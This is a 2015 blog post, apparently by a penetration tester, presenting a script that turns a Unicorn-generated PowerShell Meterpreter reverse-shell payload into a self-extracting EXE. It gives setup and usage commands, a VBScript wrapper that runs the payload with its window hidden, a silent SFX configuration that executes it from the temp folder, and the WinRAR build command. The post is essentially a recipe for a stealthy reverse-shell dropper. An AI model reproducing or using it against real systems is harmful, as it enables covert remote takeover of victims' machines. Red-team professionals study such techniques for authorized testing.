 ```yaml
---
layout: post
title: Making a Powershell EXE Payload
category: 
year: 2015
month: 5
day: 13
published: true
summary: A script to make a powershell payload into an executable.
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>I've been using TrustedSec's <a href="https://github.com/trustedsec/unicorn">Unicorn</a> a LOT over the past few months. In fact, it's become my go-to payload to pop a box. While it's awesome to be able to paste a command and get a shell, sometimes an EXE is required.

<p>For those cases, I've made a script to make the whole process automated: <code>powershell_exe.py</code>


<p><h3>tl;dr</h3>
<code>powershell_exe.py</code> uses winrar's commandline options under wine to make a self-extracting archive.
<p><a href="https://github.com/bluscreenofjeff/Scripts/blob/master/powershell_exe.py">Source</a>

<p><b>Setup instructions</b>
{% highlight bash lineanchors %}
cd /opt
git clone https://github.com/trustedsec/unicorn.git

cd ~/Desktop
wget http://www.rarlab.com/rar/wrar511.exe
wine wrar511.exe
{% endhighlight %}
<p>Now just go through the default options of winrar to finish the install.
<br>
<p><b>Usage:</b>
{% highlight bash lineanchors %}
python power_exe.py <payload> <ip address> <port>
Example: python power_exe.py windows/meterpreter/reverse_tcp 192.168.1.5 443
{% endhighlight %}  
<br>
<p><b>Results</b>
<p>The script outputs a <code>powerpay.exe</code> file and leaves Unicorn's <code>powershell_attack.txt</code> file. 
<p>To have the script remove the Unicorn command, uncomment line 39: <code>system("rm powershell_attack.txt")</code>


<p><h3>How it works</h3>
<p>The script runs Unicorn using the provided options for payload, IP, and port. The result is the Powershell command text in <code>powershell_attack.txt</code>.

<p>The code from <code>powershell_attack.txt</code> is inserted into the following vbscript file to call the command without that ugly black command prompt popping up:
{% highlight basic lineanchors %}
Dim shell,command
command = "<POWERSHELLCOMMAND>"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
{% endhighlight %}
<br>
<p>An <code>xfs.config</code> file is written for winrar:
{% highlight bash lineanchors %}
;The comment below contains SFX script commands

Path=%Temp%
Setup=run.vbs
Silent=1
Overwrite=1
{% endhighlight %}
<p>You can have multiple Setup lines in that file, so if you wanted to have the payload run and then create an error or run an intel script, you could just edit the config file, add the file creation to the script, and edit the wine command below.
<br>

<p>Winrar's command line options are plentiful, but for our purposes the syntax is as follows:<br>
{% highlight bash lineanchors %}
wine /root/.wine/drive_c/Program\ Files/WinRAR/Rar.exe a -r -u -sfx -z'xfs.config' powerpay run.vbs
{% endhighlight %}
What the flags mean:
<ul style="list-style-type: none;">
  <li><b>a</b> : adds to the designated archive (powerpay in this case)</li>
  <li><b>-r</b> : recurses subfolders (if applicable)</li>
  <li><b>-u</b> : updates the archive with new files and adds the new files to the archive</li>
  <li><b>-sfx</b> : makes the archive an SFX (self-extracting) archive</li>
  <li><b>-z</b> : specifies the xfs.config file. Note there is no space between the flag and path to config file</li>
  <li><b>powerpay</b> : name of the archive. This will output as powerpay.exe</li>
  <li><b>run.vbs</b> : the file being added to the archive. You can add multiple files with spaces between the paths</li>
</ul>

<p>That's it! It should probably be said that I am <b>not</b> a programmer, so the source is definitely not written the "right" way. 

     </div>

</div>
<div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>
